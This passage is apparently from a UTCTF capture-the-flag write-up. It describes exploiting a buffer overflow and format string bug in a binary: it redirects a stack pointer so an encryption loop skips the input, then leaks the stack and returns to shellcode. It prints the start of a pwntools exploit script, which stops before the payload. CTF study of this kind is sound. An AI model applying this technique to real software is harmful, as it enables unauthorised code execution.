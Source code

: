 ### Exploit Development

As we can see we have 2 bugs here, `Buffer Overflow` and `Format String Bug`, our problem is that for loop, it'll encrypt our input, so what we need to do with it? If we look carefully at the disassembly we can see

![alt text](/img/UTCTF/image-2.png)

The program first moves our input pointer into the local variable at `rbp-0x10`. This location (`rbp-0x10`) is then used by the for loop to read each character of our input. During that loop, the code applies its `encryption/decryption` logic by changing each character’s value based on whether it is uppercase or lowercase. As a result, our input is modified before it is used in the program, so we need to be aware that our original string will not remain the same once it passes through this loop.

And because that pointer is on the stack so we can modified it point to some `rw-` section so that our input won't be change by that loop. And what we need to do after that is just leak the stack address, put `shellcode` and calculate the address to return to it.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
# import ctypes
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./shellcode_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

b *0x000000000040063c
b *0x0000000000400724
c
c
'''.format(**locals())
p = init()

# ==================== EXPLOIT ====================


def exploit():

    rop = ROP(exe)
    p.recvuntil(b'<Insert prompt here>: \n')

    payload = flat({
```